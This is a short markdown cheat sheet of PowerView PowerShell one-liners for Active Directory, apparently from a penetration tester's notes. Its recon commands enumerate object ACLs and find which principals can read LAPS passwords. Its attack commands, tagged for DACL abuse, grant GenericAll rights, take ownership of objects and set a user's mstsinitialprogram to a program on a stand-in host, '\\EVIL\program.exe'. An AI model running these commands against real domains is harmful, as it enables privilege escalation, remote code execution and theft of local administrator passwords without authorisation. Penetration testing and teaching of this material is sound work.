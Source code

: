 # powerview

% ad, windows, powerview
#plateform/windows #target/remote  #cat/RECON 

## DACL - Get ACLs of an object by an object
target can be:
    - SamAccountName
    - DistinguishedName
    - SID
    - GUID
    - *
```powershell
$sid = ConvertTo-SID -Name <source>; Get-DomainObjectAcl -Identity <target> -ResolveGUIDs | ?{$_.SecurityIdentifier -eq $sid }
```

## DACL - Get ACLs of an object 
```powershell
Get-ObjectAcl -Identity <user> -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
```

## DACL - Find all domain user DACL
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## DACL - Add GenericAll to target for user
#cat/ATTACK/DACL-ABUSE
```powershell
Add-DomainObjectAcl -TargetIdentity <ldap_path> -PrincipalIdentity <current_user> -Rights All
```

## DACL - Set the owner 
#cat/ATTACK/DACL-ABUSE
```powershell
Set-DomainObjectOwner -Identity <target_object> -OwnerIdentity <user>
```

## DACL - set the specified property for the given user identity
@{'mstsinitialprogram'='\\EVIL\program.exe'}
#cat/ATTACK/DACL-ABUSE
```powershell
Set-DomainObject <user> -Set @{'<property>'='<value>'} -Verbose
```

## DACL - Enumerate Principals that can read LAPS
#cat/RECON/DACL
```powershell
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object { $_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier); $_ }
```
